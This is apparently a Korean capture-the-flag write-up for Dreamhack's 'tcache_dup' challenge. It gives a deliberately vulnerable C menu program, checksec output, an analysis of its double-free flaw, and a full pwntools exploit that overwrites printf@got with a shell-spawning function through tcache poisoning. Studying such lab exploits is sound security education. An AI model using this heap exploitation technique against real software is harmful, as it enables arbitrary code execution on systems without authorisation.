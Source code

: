 ```c
// Name: tcache_dup.c
// gcc -o tcache_dup tcache_dup.c -no-pie
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

char *ptr[10];

void alarm_handler() {
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int create(int cnt) {
    int size;

    if (cnt > 10) {
        return -1;
    }
    printf("Size: ");
    scanf("%d", &size);

    ptr[cnt] = malloc(size);

    if (!ptr[cnt]) {
        return -1;
    }

    printf("Data: ");
    read(0, ptr[cnt], size);
}

int delete() {
    int idx;

    printf("idx: ");
    scanf("%d", &idx);

    if (idx > 10) {
        return -1;
    }

    free(ptr[idx]);
}

void get_shell() {
    system("/bin/sh");
}

int main() {
    int idx;
    int cnt = 0;

    initialize();

    while (1) {
        printf("1. Create\n");
        printf("2. Delete\n");
        printf("> ");
        scanf("%d", &idx);

        switch (idx) {
            case 1:
                create(cnt);
                cnt++;
                break;
            case 2:
                delete();
                break;
            default:
                break;
        }
    }

    return 0;
}
```

```bash
$ checksec ./tcache_dup
[*] './tcache_dup'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# 코드 분석

* `tcache_dup.c:20-37` : `malloc` 함수로 청크를 할당한 후 메모리 영역을 초기화하지 않으므로 use after free가 발생할 가능성이 있다.
* `tcache_dup.c:39-50` : `free` 함수로 청크를 해제한 후 포인터를 초기화하지 않아 danglin pointer가 발생한다. 따라서 이를 이용하면 double free bug를 발생시킬 수 있다.
* `tcache_dup.c:52-54` : 호출하기만 하면 shell을 탈취할 수 있다.

# 공격

## Design Exploitation

코드를 살펴보면, 계속 반복적으로 호출하는 함수가 `printf`이므로 `printf`의 got에 `get_shell` 함수의 주소를 넣어주면 즉시 shell을 탈취할 수 있으리라는 것을 생각해볼 수 있다.

또한, 문제에서 제공된 라이브러리에서는 key값을 체크하지 않아 double free가 막히지 않는다.
따라서 double free bug를 활용하여 `printf@got`에 `get_shell`의 주소를 덮어쓰면 익스플로잇에 성공할 수 있다.

## Exploit

다음과 같은 익스플로잇 코드를 구성하면 flag를 얻을 수 있다.

```python
# Name: tcache_dup.py

from pwn import *

def slog(name,addr): success(f'{name}: {hex(addr)}')

HOST = 'host3.dreamhack.games'
PORT = 19928

p = remote(HOST,PORT) # remote
# p = process('./tcache_dup', env={'LD_PRELOAD':'./libc-2.27.so'}) # local
e = ELF('./tcache_dup')
libc = ELF('./libc-2.27.so')

#ifndef __Custom_Functions_For_Convenience_
#define __Custom_Functions_For_Convenience_ 
def create(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)

def delete(idx):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())
#endif /* __Custom_Functions_For_Convenience_ */
    
#ifndef __Custom_Global_Variables_For_Convenience_
#define __Custom_Global_Variables_For_Convenience_
dummy = b'dobby is free'
printf_got = e.got['printf']
get_shell = e.sym['get_shell']
#endif /* __Custom_Global_Variables_For_Convenience_ */

# Initial tcache is empty
# tcache[0x40] : empty
create(0x30, dummy)

# tcache[0x40] : Chunk A
delete(0) # tcache[0x40].append(Chunk A)

# tcache[0x40] : Chunk A -> Chunk A
delete(0) # tcache[0x40].append(Chunk A)

# tcache[0x40] : Chunk A -> printf@got -> ...
create(0x30, p64(printf_got)) # tcache[0x40].pop(); tcache[0x40].first().set_fd(printf_got)

# tcache[0x40] : printf@got -> ...
create(0x30, dummy) # tcache[0x40].pop()

# Overwrite printf@got
create(0x30, p64(get_shell)) # tcache[0x40].first().set_data(get_shell); tcache[0x40].pop()

p.interactive()
```